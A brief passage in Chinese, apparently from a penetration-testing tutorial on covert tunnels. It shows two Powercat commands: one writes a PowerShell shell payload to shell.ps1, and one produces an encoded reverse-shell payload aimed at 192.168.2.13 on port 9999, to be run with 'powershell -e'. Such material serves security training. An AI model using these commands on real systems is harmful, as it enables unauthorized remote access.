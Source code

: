 ![](/assets/img/隐藏通信隧道基础知识/58.png)

如果想生成一个反弹Powershell的Payload那么就用下面的命令生成：

```
powercat -l -p 8000 -ep -v -g >> shell.ps1
```

用Powercat也可以直接生成经过编码的Payload。

在Win7中执行命令，即可得到编码后的Pyload：（-g生成payload）（-ge生成经过编码的payload，可以直接使用powershell -e 进行反弹shell）

```
powercat -c 192.168.2.13（win7） -p 9999 -ep -ge > 1.txt
```
